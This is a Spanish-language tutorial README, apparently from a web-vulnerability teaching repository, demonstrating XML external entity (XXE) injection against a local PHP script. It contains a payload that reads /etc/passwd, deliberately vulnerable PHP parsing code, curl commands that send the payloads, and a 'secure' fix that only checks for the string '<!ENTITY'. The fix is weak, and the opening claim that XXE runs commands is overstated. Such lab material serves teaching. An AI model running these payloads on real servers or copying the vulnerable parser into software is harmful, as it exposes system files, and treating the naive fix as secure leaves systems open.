


# Ejemplo de una vulnerabilidad XXE

Una vulnerabilidad XXE permite al atacante ejecutar comandos en un servidor usando las entidad XML

### Las entidades XML

Una entidad XML funciona de forma similar a una variable, permite almacenar contienido para mostrarlo en otra parte del fichero, las entidades tipo SYSTEM permiten acceder a ficheros del sistema.

```
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> // Read the content of /etc/passwd
]>
<foo>&xxe;</foo>
```

### Codigo vulnerable

http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php

Este codigo muestra el contenido de un fichero XML que se le pase como parametro.

```
<?php
/* Display PHP Errors */
ini_set('display_errors', 1);
error_reporting(E_ALL);

/* Create a DOM Document */
$dom = new DOMDocument();

/* Get the XML loaded in the POST Requests */
$dom->loadXML(file_get_contents('php://input'), LIBXML_NOENT | LIBXML_DTDLOAD);

/* Convert the XML document into a SimpleXMLDocument*/
$parsed = simplexml_import_dom($dom);

/* Shows the result */
echo $parsed;
?>
```

Puedes enviar un fichero al sitio web usando el comando curl.

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @safe.xml
```



Si envias un fichero XML con entidades SYSTEM puedes acceder a los ficheros del sistema.

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @xxe_payload_passwords.xml
```


### Codigo seguro

Para eliminar esta vulnerabilidad lo ideal sería prohibir la ejecución de ficheros XML con entidades.

```
/* If the XML Document contains entities finish the execution */
if (strpos(file_get_contents('php://input'), "<!ENTITY") !== false){
    die("No se permiten entidades externas");
}
```

Envia el payload del fichero etc/paswd al script PHP seguro.

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe_secured.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @xxe_payload_passwords.xml
```



